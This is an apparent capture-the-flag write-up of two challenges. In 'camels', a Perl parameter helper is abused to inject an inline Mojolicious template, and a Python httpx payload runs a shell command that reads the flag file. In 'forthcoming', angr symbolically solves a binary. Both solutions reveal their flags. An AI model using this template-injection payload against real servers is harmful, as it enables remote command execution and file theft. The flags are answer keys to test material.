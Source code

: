 # Challenge: camels

The `variant` parameter is extracted from the URL using `param($c->req->url->query, "variant")`:

```perl
sub param {
    my $__ = (split(/::/,(caller(0))[3]))[-1];
    my $___ = $_[0]->$__($__) || $__;
    my @____ = $_[0]->$___($_[1]);
    return ref($____[0]) ? @{$____[0]} : $____[0];
}
```

`$q` is `Mojo::Parameters` which contains method [clone](https://docs.mojolicious.org/Mojo/Parameters.txt) that allow us to populate the hash containing the arguments to `$c->render(...)`, i.e. we can add argument `inline => 'SSTI: <%= 1 + 1 %>.'` and do a server-side template injection attack (SSTI).

To avoid bash/curl formatting issues, I used the python library `httpx` (like requests) to create this payload:

```python
import httpx
httpx.get("http://167.235.153.119:8403/", params={
    "param": "clone",
	"inline": "<%= `cat /camels/flag.txt` %>"
}).text
# 'BHCTF{you_and_the_camels_are_one}\n'
```

# Challenge: Understanding is forthcoming (part 1)

Really cool binary! Luckily Angr somehow knows what is going on:

```
import angr

proj = angr.Project("./forthcoming", auto_load_libs=False)
state = proj.factory.entry_state()
simgr = proj.factory.simulation_manager(state)

simgr.explore(find=lambda s: "you got it" in s.posix.dumps(1))
# 1 path found! <SimulationManager with 2 active, 34 deadended, 1 found>

print(simgr.found[0].posix.dumps(0))  # dumps(0) is stdin
# b'BHCTF{d1d_y0u_3nj0Y_mY_l1ttl3_Rn9}\n'
```
